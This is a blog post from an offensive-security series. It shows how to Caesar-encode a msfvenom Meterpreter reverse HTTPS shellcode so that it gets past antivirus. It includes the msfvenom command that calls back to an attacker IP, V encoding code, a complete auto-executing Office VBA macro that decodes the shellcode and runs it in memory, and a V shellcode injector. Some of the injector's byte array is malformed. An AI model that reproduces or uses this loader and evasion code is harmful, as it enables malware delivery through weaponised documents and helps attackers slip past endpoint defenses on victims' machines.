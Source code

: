 ```yaml
---
layout: single
title:  "OffensiVe Security with V 4 - Caesar"
date:   2022-11-02 20:54:50 -0500
categories: app-development
tags: vlang windows osep
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [XOR Cipher](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-3-XOR/) was detailed, in this part another **cipher technique** with **Caesar encryption** will be investigated in order to mitigate **AV defenses**.

## Caesar Cipher

The **Caesar cipher** was one of the earliest encryption schemes and is very simple. It is categorized as a **substitution cipher** since it substitutes a letter or number by shifting it to the right by the number specified in the key.

```text
Input Output
C -> D
a -> b
e -> f
s -> t
a -> b
r -> s
```

For this, the following code will be used, which shows the encryption method in the **V** language.
First, we'll need to generate a payload, to do so we'll use the following snippet from `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.86 LPORT=443 -f csharp
```

Once the payload was generated the output will be similar at the following.

```bash
byte[] buf = new byte[547] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,
    ..snip..
    0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
```

It will be necessary to convert the **csharp** output to **V**, for this we copy each byte *(547)* in the same way and we will group it by square brackets. To get something similar to the following code block.

```bash
buf := [
    byte(0xfc),0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
    ..snip..
    0x38,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 ]
```

The next step will be to implement the **Caesar encryption** algorithm. To do this, iterates over all the characters of the **payload**, exchanging them with a **sum** of **+2** (It could be a sum of any number).
To implement that, the following code was created.
```c
fn main() {
    // Caesar cipher
    mut encoded := buf.clone()
    for i := 0; i < buf.len; i++ {
        encoded[i] = buf[i] + 2 & 0xFF
    }
```

>  We performed a bitwise **AND** *(&)* operation with `0xFF` to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds `0xFF`.

Once we have each byte replaced, it is converted to VBA code. To do this, add the string `buf = Array(` at the beginning, a `)` at the end and add a `, _` every 30 iterations. This is necessary so that office can read the payload.
The following code shows the theory.
```c
    // To VBA
    mut v := ''
    for i := 0; i < encoded.len; i++ {
        if i == 0 {
            v += 'buf = Array(${encoded[i]}, '
        }
        else if i  == encoded.len - 1 {
            v += '${encoded[i]})'
        }
        else {
            if i % 30 == 0 {
	              v += '${encoded[i]}, _ \n'
	      }
            else {
                v += '${encoded[i]}, '
            }
        }
    }

    println(v)
}
```

It is also possible to convert it to **Hexadecimal**.
```c
    // To Hex
    mut h := ''
    for i := 0; i < encoded.len; i++ {
        h += '0x${int(encoded[i]):x}, '
    }
```

Or to a **String**.
```c
    // To string
    mut s := ''
    for i := 0; i < encoded.len; i++ {
        s += encoded[i].ascii_str()
    }
```

The output of the code will be the payload in **VBA** format, which we can import into an **Office macro** as shown in the following example.
Here it is necessary to subtract the number of substitutions that we have made when encrypting the payload with **Caesar** *(-2)*.
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 139, 231, 102, 141, 84, 50, 141, 84, 14, 141, 84, 22, 141, 116, 42, 17, 185, 76, 40, 51, 1, 51, _
    ..snip..
    231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 58, 56, 2, 189, 242, 183, 164, 88, 108, 2, _
    85, 1, 215)

    ' Caesar decipher
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Instead of using an **Office macro**, it is possible to inject a **Hexadecimal shellcode** directly with **V**.

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    buf := [
    byte(0xfe), 0xea, 0x971,33, 0x32, 0x30x, 0x6d, 0x79, 0x65, 0xa1, 0xc8, 0x6c, 
    ..snip..
    0x21, 0x50x2, 0x6a, 0x2,]

    // Caesar decipher
    mut shellcode := buf.clone()
    for i := 0; i < buf.len; i++ {
        shellcode[i] = buf[i] - 2
    }
    inject(shellcode)
}
```

It is possible to **build** the above code with:

```bash
v caesar.v
```

### Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/D6csaUgbVxw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
